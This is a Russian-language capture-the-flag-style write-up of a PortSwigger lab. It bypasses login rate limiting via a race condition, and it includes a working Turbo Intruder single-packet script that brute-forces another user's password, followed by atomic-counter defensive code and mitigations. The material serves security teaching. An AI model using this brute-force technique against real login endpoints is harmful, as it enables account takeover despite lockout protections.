





# Lab: Bypassing rate limits via race conditions

**Платформа:** PortSwigger Web Security Academy  
**Категория:** Race conditions  
**Сложность:** Practitioner  
**Дата:** 2025-08-03   

---

## TL;DR
Механизм входа блокирует аккаунт после 3 неверных попыток —
защита от брутфорса, привязанная к username, а не к сессии.
Между проверкой «не заблокирован ли аккаунт» и увеличением
счётчика неудачных попыток есть временной разрыв. Отправив
множество запросов входа с разными паролями **одновременно,
одним сетевым пакетом** (single-packet attack через Turbo
Intruder, HTTP/2), удалось совершить значительно больше 3
реальных попыток входа до того, как блокировка успела
сработать, — и подобрать пароль пользователя `carlos`.

---

## Тип уязвимости: race condition в rate limiting

```
Задумано:
POST /login с неверным паролем → счётчик неудачных попыток
для username растёт → после 3 неудач → блокировка на время

Race condition:
ПРОВЕРКА "аккаунт не заблокирован?" и ПРИМЕНЕНИЕ +1 к счётчику
неудачных попыток — разные шаги, разнесённые во времени
→ если отправить МНОГО запросов ОДНОВРЕМЕННО (разными паролями),
  каждый успевает пройти проверку блокировки ДО того,
  как счётчик обновится хотя бы одним из них
→ реально проверяется намного больше 3 паролей за раз
```

---

## Прогнозирование потенциального столкновения

### Шаг 1 — Изучение механизма блокировки

Вошла как `wiener:peter`. Намеренно ввела неверный пароль
несколько раз для своего аккаунта.

```
После 3 неверных попыток → временная блокировка аккаунта
```


### Шаг 2 — Проверка, к чему привязана блокировка

Попыталась войти под произвольным несуществующим именем
пользователя — получила обычный ответ `Invalid username or
password`, без блокировки.

```
Вывод: лимит попыток привязан к КОНКРЕТНОМУ username,
       а не к сессии/IP/cookie
→ счётчик неудачных попыток хранится на сервере,
  в общем состоянии, связанном с этим именем пользователя
→ между проверкой блокировки и инкрементом счётчика
  есть потенциальное временное окно для гонки
```


---

## Оценка поведения

### Шаг 3 — Контрольная проверка: последовательная отправка

В истории Burp Proxy нашла запрос `POST /login` с неудачной
попыткой входа в свой аккаунт, отправила в Burp Repeater.
Создала группу вкладок и продублировала её **19 раз**
(итого 20 одинаковых запросов).

Отправила группу **последовательно**, через отдельные соединения
(Send group in sequence — separate connections).

Результат: после ещё двух неудачных попыток аккаунт, как и
ожидается, оказался временно заблокирован — блокировка сработала
штатно при обычной, разнесённой во времени отправке.



---

## Поиск подсказки (эксплуатация гонки)

### Шаг 4 — Параллельная отправка

Отправила ту же группу запросов **параллельно** (Send group in
parallel).


Изучила ответы: несмотря на то что блокировка должна была
наступить после 3-й неудачной попытки, **более трёх** запросов
получили обычный ответ `Invalid username or password` (а не
отказ из-за блокировки) — то есть реально были проверены как
валидные попытки входа.


Вывод: если действовать достаточно быстро (одновременно), можно
совершить значительно больше 3 попыток входа до того, как
блокировка вступит в силу.

---

## Подтверждение концепции (Proof of Concept)

### Шаг 5 — Подготовка Turbo Intruder

Оставаясь в Repeater, выделила значение параметра `password` в
теле запроса `POST /login`, кликнула правой кнопкой →
**Extensions → Turbo Intruder → Send to Turbo Intruder**.

[СКРИН 7: вызов Turbo Intruder из контекстного меню Repeater]

В редакторе запроса Turbo Intruder параметр `password` уже был
автоматически помечен как позиция полезной нагрузки (`%s`).
Изменила параметр `username` на `carlos` — цель атаки теперь
чужой аккаунт, а не собственный.

[СКРИН 8: редактор запроса Turbo Intruder с username=carlos и %s на месте password]


### Шаг 6 — Настройка скрипта атаки

Выбрала шаблон `examples/race-single-packet-attack.py`,
скопировала список паролей из подсказки лабы в буфер обмена
и изменила Python-скрипт следующим образом:

```python
def queueRequests(target, wordlists):

    # target поддерживает HTTP/2 → engine=Engine.BURP2 и
    # concurrentConnections=1 для single-packet attack
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # список паролей-кандидатов из буфера обмена
    passwords = wordlists.clipboard

    # ставим запрос в очередь для каждого пароля,
    # но не отправляем сразу — придерживаем за "воротами" gate='1'
    for password in passwords:
        engine.queue(target.req, password, gate='1')

    # когда все запросы поставлены в очередь —
    # открываем ворота: все они отправляются ОДНОВРЕМЕННО
    engine.openGate('1')


def handleResponse(req, interesting):
    table.add(req)
```

Разбор ключевых моментов:

```
engine=Engine.BURP2         — HTTP/2 позволяет мультиплексировать
                               несколько запросов в ОДНОМ TCP-пакете
                               → минимальный разброс по времени
                               прибытия на сервер (single-packet attack)

concurrentConnections=1     — все запросы идут через одно соединение,
                               необходимое условие для мультиплексирования

gate='1' + engine.queue(...) — запрос формируется и ставится в очередь,
                               но физически НЕ отправляется сразу

engine.openGate('1')        — отправляет ВСЕ поставленные в очередь
                               запросы разом, как только они готовы —
                               обеспечивает нужную синхронность гонки
```



### Шаг 7 — Запуск атаки

Запустила атаку.

### Шаг 8 — Поиск успешного пароля

Изучила ответы в таблице результатов: подавляющее большинство
запросов вернули обычную ошибку неверного пароля, но один запрос
вернул **302** (успешный редирект после входа) — это и есть
правильный пароль пользователя `carlos`. Записала соответствующее
значение из колонки Payload.



*Если атака не удалась с первого раза — дождалась сброса
временной блокировки и повторила попытку с сокращённым списком
паролей (исключая уже проверенные неверные варианты); важно
помнить, что пароль Карлоса меняется при каждом сбросе задания.*

### Шаг 9 — Вход и завершение лабы

Дождалась снятия временной блокировки аккаунта `carlos`, вошла
под его учётными данными с найденным паролем.


Перешла в панель администратора и удалила пользователя `carlos`.
Лаба решена.

[СКРИН 13: панель администратора, пользователь carlos удалён]


---

## Итог

```
Проблема: проверка блокировки аккаунта и увеличение счётчика
          неудачных попыток входа — два отдельных шага,
          разнесённых во времени (TOCTOU)

Эксплуатация: множество запросов POST /login с разными
          паролями, отправленных ОДНОВРЕМЕННО одним сетевым
          пакетом (single-packet attack через HTTP/2 и
          Turbo Intruder), проходят проверку блокировки
          параллельно, до того как счётчик успевает
          обновиться хотя бы одним из них

Результат: реально протестировано намного больше 3 паролей
          за раз, что позволило подобрать пароль пользователя
          carlos, несмотря на формально работающую защиту
          от брутфорса
```

### Почему нужен именно Turbo Intruder, а не Repeater

```
Repeater — отлично подходит, чтобы ПОДТВЕРДИТЬ саму гонку
на фиксированном наборе одинаковых запросов (один и тот же
неверный пароль, много копий)

Turbo Intruder — нужен для РЕАЛЬНОЙ атаки: перебор большого
списка РАЗНЫХ паролей, каждый из которых должен быть
отправлен практически в один момент времени — задача,
для которой Repeater не предназначен, а gate-механизм
и скриптуемость Turbo Intruder решают напрямую
```

---

## Защита

```python
# УЯЗВИМО — проверка блокировки и инкремент счётчика — раздельные,
# неатомарные операции:
def login(username, password):
    attempts = get_failed_attempts(username)   # ШАГ 1: проверка
    if attempts >= 3:
        return "Account temporarily locked"

    if not check_password(username, password): # ШАГ 2: проверка пароля
        increment_failed_attempts(username)    # ШАГ 3: инкремент счётчика
        return "Invalid username or password"

    reset_failed_attempts(username)
    return login_success(username)

# БЕЗОПАСНО — атомарная проверка-и-инкремент на уровне БД
# (например, через одну атомарную операцию с условием):
def login(username, password):
    result = db.execute(
        """
        UPDATE login_attempts
        SET attempts = attempts + 1
        WHERE username = %s AND attempts < 3
        RETURNING attempts
        """,
        (username,),
    )
    if result.rowcount == 0:
        return "Account temporarily locked"

    if not check_password(username, password):
        return "Invalid username or password"

    reset_failed_attempts(username)
    return login_success(username)
```

Дополнительно:
- Реализовывать проверку и обновление счётчика неудачных попыток
  как единую атомарную операцию на уровне БД (`UPDATE ... WHERE
  attempts < N`, транзакции с должным уровнем изоляции,
  `SELECT ... FOR UPDATE`), а не как последовательность отдельных
  чтений и записей в коде приложения
- Использовать распределённые атомарные счётчики (например,
  `INCR` в Redis с проверкой результата) для лимитов, завязанных
  на высокочастотные операции вроде логина
- Не полагаться только на лимит по username — дополнительно
  учитывать IP-адрес, fingerprint клиента, глобальный rate limit
  на эндпоинт логина, чтобы затруднить именно параллельные
  multi-password атаки
- Вводить искусственную задержку (throttling) при обработке
  каждой попытки логина — это снижает эффективность
  single-packet атак, так как сервер физически не может
  обработать много запросов "мгновенно"
- Тестировать критичные security-механизмы (rate limiting,
  блокировки, лимиты попыток) именно на конкурентный доступ,
  а не только на последовательные сценарии использования